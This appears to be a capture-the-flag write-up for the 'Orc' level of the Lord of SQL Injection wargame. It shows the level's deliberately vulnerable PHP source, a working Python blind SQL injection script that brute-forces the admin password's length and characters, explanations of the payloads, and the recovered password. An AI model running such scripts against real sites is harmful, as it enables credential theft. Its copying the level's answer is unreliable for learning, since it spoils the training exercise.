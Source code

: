 # Lord Of SQL Injection

### Orc

[Orc chall link](https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php)

Source code of this chall:

```php    
    	<?php 
  	  include "./config.php"; 
	  login_chk(); 
	  dbconnect(); 
	  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
	  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
	  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
	  $result = @mysql_fetch_array(mysql_query($query)); 
	  if($result['id']) echo "<h2>Hello admin</h2>"; 
	  $_GET[pw] = addslashes($_GET[pw]); 
	  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
	  $result = @mysql_fetch_array(mysql_query($query)); 
	  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
	  highlight_file(__FILE__); 
	?>	
```

In this chall, your object is to find the password because i already used many command like `' or 1=1 -- ;` and get no response :( . After many times trying, i try Blind SQL Injection and get the thing i want. You will bruteforce to find every character of the password.


I divide this chall into 2 phase:
1. Find the length of the password
2. Find every character of the password

This is my code to solve this problem:
```python
    	import requests
	import string

	url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw="
	my_cookies = {"PHPSESSID":"your PHPSESSID here"}
	passwd = ""
	passwdlen = 0
	for i in range(0,10):
	    print("Checking if the password length is " + str(i))
	    payload = "' or id='admin' and length(pw)=" + str(i) + " -- ;"
	    payload = requests.utils.quote(payload)
	    final_url = url + payload
	    res = requests.get(final_url,cookies=my_cookies)
	    if "Hello admin" in res.text:
		print("FOUND! Password length is " + str(i))
		print("-------------------------------------------------")
		passwdlen = i
		break
	    else:
		print("FAIL!")
		print("-------------------------------------------------")



	for i in range(1,passwdlen+1):
	    for c in string.digits + string.ascii_lowercase:
		payload = "'or id='admin' and substr(pw,"+str(i)+",1)='" +c+ "' -- ;"
		payload = requests.utils.quote(payload)
		final_url = url + payload
		res = requests.get(final_url,cookies=my_cookies)
		if "Hello admin" in res.text:
		    passwd+=c
		    print(final_url)
		    print("Found a new char of password: " + passwd)
		    break
	print("The password is: " + passwd)
 ```

The two library which i used in this code is requests library and string library. The requests library is used to send data to the server, and the string library to get all the digit and lowercase letter as string for the second loop. Maybe you don't understand why i didn't use the uppercase letter or why the range of the first loop is 0->10, that's a secret :) You will know that secret after you solved this chall :D

In the first for loop, i find the password length. After that, i use the password's length i had found before as an end of range for the second for loop. And also, in this chall you must use you cookies to pass into the header of the request you make. If you don't do that, this code will fall because the server will redirect you to the login page :<

I will explain two payload i used in this chall:

1. The first loop payload

```python
    	url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw=' or id='admin' and length(pw)=" + str(i) + " -- ;"
```

I find the password by using a single quote to end the query which already open in the query of the program. Then i find the length of the `pw` parameter by loop through a range from 0 to 10. If the length of the `pw` is correct, the line "Hello admin" will appear. You can rely on that line to bruteforce the length of the password. And please remember that after ` --` is a space and a ";" symbol. Because in MySQL, after a comment you must leave a space, but if you leave only the space with no character after that space, the space will be cut off automatically so i choose a ";" symbol, you can choose whatever you want, just make sure the space after the comment exist.

2. The second loop payload

```python
	url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw=' or id='admin' and substr(pw,"+ str(i) +",1)='" +c+ "' -- ;"
```

In the second loop, i find every character of the password using bruteforce again. The substr() function will extract a substring from a string, in this case is the passwd. You can read about the substr() function on the internet to know more about how it work. 

And after the second loop, you can find the password is 095a9852
